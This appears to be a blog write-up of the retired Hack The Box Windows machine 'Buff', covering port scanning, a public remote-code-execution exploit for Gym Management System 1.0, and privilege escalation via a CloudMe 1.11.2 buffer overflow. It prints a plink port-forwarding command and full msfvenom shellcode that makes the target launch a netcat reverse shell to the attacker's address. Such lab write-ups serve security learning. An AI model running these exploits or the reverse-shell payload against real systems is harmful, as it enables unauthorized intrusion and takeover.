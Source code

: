 ```yaml
---
layout: post
title: Hack the Box - Buff
date: 2020-08-01 21:45:22 +0100
description: Buff is an easy difficulty Windows machine that features an instance of Gym Management System1.0. This is found to suffer from an unauthenticated remote code execution vulnerability.Enumeration of the internal network reveals a service running at port 8888. The installation file for this service can be found on disk, allowing us to debug it locally. We can perform port forwarding in order to make the service available and exploit it.
img: buff.png
fig-caption: Buff
categories: HackTheBox
tags: [Easy, Windows, Retired, CVE]
---
```

## Overview
Buff is an easy difficulty Windows machine that features an instance of Gym Management System1.0. This is found to suffer from an unauthenticated remote code execution vulnerability.Enumeration of the internal network reveals a service running at port 8888. The installation file for this service can be found on disk, allowing us to debug it locally. We can perform port forwarding in order to make the service available and exploit it.
## Enumeration
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~/hackthebox/buff]
└─$ sudo nmap -p- -T4  10.129.25.107 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-22 10:57 GMT
Nmap scan report for 10.129.25.107
Host is up (0.022s latency).
Not shown: 65533 filtered ports
PORT     STATE SERVICE
7680/tcp open  pando-pub
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 88.03 seconds
```
After port scanning we could see an http server running on port 8080. When poking about the website on that port we could see the application version on the contact us page. When searching for exploits for that application on exploitdb we found an unauthenticated RCE exploit.
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~/hackthebox/buff]
└─$ searchsploit gym management   
----------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                     |  Path
----------------------------------------------------------------------------------- ---------------------------------
Gym Management System 1.0 - 'id' SQL Injection                                     | php/webapps/48936.txt
Gym Management System 1.0 - Authentication Bypass                                  | php/webapps/48940.txt
Gym Management System 1.0 - Stored Cross Site Scripting                            | php/webapps/48941.txt
Gym Management System 1.0 - Unauthenticated Remote Code Execution                  | php/webapps/48506.py
----------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```
## Foothold
Gaining a foothold was simple enough once we have the exploit, as shown below.
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~/hackthebox/buff]
└─$ python exploit.py http://10.129.117.177:8080/
            /\
/vvvvvvvvvvvv \--------------------------------------,
`^^^^^^^^^^^^ /============BOKU====================="
            \/

[+] Successfully connected to webshell.
C:\xampp\htdocs\gym\upload> whoami
�PNG
�
buff\shaun
```

## Privilege Escalation
Once we have the foothold to escalate privileges was a little more in depth. First we found a binary in shauns download folder.
```
C:\Users\shaun>tree /f
tree /f
Folder PATH listing
Volume serial number is A22D-49F7
C:.
����3D Objects
����Contacts
����Desktop
�       user.txt
�       
����Documents
�       Tasks.bat
�       
����Downloads
�       CloudMe_1112.exe
```
Googling the service we find it listens on port 8888. When checking for open ports we find it open.
```
C:\xampp\htdocs\gym\upload>netstat -ano
netstat -ano

Active Connections

  Proto  Local Address          Foreign Address        State           PID
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       956
...
  TCP    127.0.0.1:8888         0.0.0.0:0              LISTENING       5640
```
I found a number of exploits for this service, but decided to go with the first one.
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~/hackthebox/buff]
└─$ searchsploit cloudme                                                                                       255 ⨯
----------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                     |  Path
----------------------------------------------------------------------------------- ---------------------------------
CloudMe 1.11.2 - Buffer Overflow (PoC)                                             | windows/remote/48389.py
CloudMe 1.11.2 - Buffer Overflow (SEH_DEP_ASLR)                                    | windows/local/48499.txt
CloudMe 1.11.2 - Buffer Overflow ROP (DEP_ASLR)                                    | windows/local/48840.py
Cloudme 1.9 - Buffer Overflow (DEP) (Metasploit)                                   | windows_x86-64/remote/45197.rb
CloudMe Sync 1.10.9 - Buffer Overflow (SEH)(DEP Bypass)                            | windows_x86-64/local/45159.py
CloudMe Sync 1.10.9 - Stack-Based Buffer Overflow (Metasploit)                     | windows/remote/44175.rb
CloudMe Sync 1.11.0 - Local Buffer Overflow                                        | windows/local/44470.py
CloudMe Sync 1.11.2 - Buffer Overflow + Egghunt                                    | windows/remote/46218.py
CloudMe Sync 1.11.2 Buffer Overflow - WoW64 (DEP Bypass)                           | windows_x86-64/remote/46250.py
CloudMe Sync < 1.11.0 - Buffer Overflow                                            | windows/remote/44027.py
CloudMe Sync < 1.11.0 - Buffer Overflow (SEH) (DEP Bypass)                         | windows_x86-64/remote/44784.py
----------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```
To ensure we could interact with it I set up port forwarding using plink.
```
C:\xampp\htdocs\gym\upload>echo y | plink.exe -l temp -pw temp -P 2222 -R 8123:127.0.0.1:8888 10.10.14.27
```
The only change we needed to make in the exploit was set up the payload, so I generated one using msfvenom.
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~/hackthebox/buff]
└─$ msfvenom -a x86 -p windows/exec CMD="C:\xampp\htdocs\gym\upload\nc.exe -nv 10.10.14.27 4520 -e cmd.exe" -b '\x00\x0A\x0D' -f python
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 277 (iteration=0)
x86/shikata_ga_nai chosen with final size 277
Payload size: 277 bytes
Final size of python file: 1361 bytes
buf =  b""
buf += b"\xb8\x46\xbb\xcd\xed\xdb\xcc\xd9\x74\x24\xf4\x5a\x31"
buf += b"\xc9\xb1\x3f\x31\x42\x14\x03\x42\x14\x83\xc2\x04\xa4"
buf += b"\x4e\x31\x05\xaa\xb1\xca\xd6\xca\x38\x2f\xe7\xca\x5f"
buf += b"\x3b\x58\xfa\x14\x69\x55\x71\x78\x9a\xee\xf7\x55\xad"
buf += b"\x47\xbd\x83\x80\x58\xed\xf0\x83\xda\xef\x24\x64\xe2"
buf += b"\x20\x39\x65\x23\x5c\xb0\x37\xfc\x2b\x67\xa8\x89\x61"
buf += b"\xb4\x43\xc1\x64\xbc\xb0\x92\x87\xed\x66\xa8\xde\x2d"
buf += b"\x88\x7d\x6b\x64\x92\x62\x51\x3e\x29\x50\x2e\xc1\xfb"
buf += b"\xa8\xcf\x6e\xc2\x04\x22\x6e\x02\xa2\xdc\x05\x7a\xd0"
buf += b"\x61\x1e\xb9\xaa\xbd\xab\x5a\x0c\x36\x0b\x87\xac\x9b"
buf += b"\xca\x4c\xa2\x50\x98\x0b\xa7\x67\x4d\x20\xd3\xec\x70"
buf += b"\xe7\x55\xb6\x56\x23\x3d\x6d\xf6\x72\x9b\xc0\x07\x64"
buf += b"\x44\xbd\xad\xee\x69\xaa\xdf\xac\xe7\x2d\x6d\xcb\x4a"
buf += b"\x2d\x6d\xd4\xfa\x45\x5c\x5f\x95\x12\x61\x8a\xd1\xec"
buf += b"\x2b\x97\x70\x64\xf2\x4d\xc1\xe9\x05\xb8\x06\x17\x86"
buf += b"\x49\xf7\xec\x96\x3b\xf2\xa9\x10\xd7\x8e\xa2\xf4\xd7"
buf += b"\x3d\xc3\xdc\x9b\xfb\x67\xa7\x7a\x91\xe7\x27\x21\x01"
buf += b"\x73\xac\xb6\xb2\x08\x70\x2e\x4c\x83\xd4\xc5\xde\x37"
buf += b"\x8a\x44\x7b\x9b\x3a\xe4\xad\x46\xbb\x8f\x91\xa5\x55"
buf += b"\x26\xf2\x84\x99\xe8\xc3\xd6\xf7\xc5\x17\x38\x3a\x11"
buf += b"\x78\x70\x0f\x6f\x48\x58\x42\xea\x88\xfb\xf1\x90\xe6"
buf += b"\x9e\x71\x3c\xf7"
```
Then after placing it in the script and as long as I have a netcat listener open, executing the script should return a shell.
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~/hackthebox/buff]
└─$ python buff.py

┌──[10.10.14.27]-(calxus㉿calxus)-[~/hackthebox/buff]
└─$ nc -nlvp 4520
listening on [any] 4520 ...
connect to [10.10.14.27] from (UNKNOWN) [10.129.117.177] 49701
Microsoft Windows [Version 10.0.17134.1610]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
buff\administrator
```
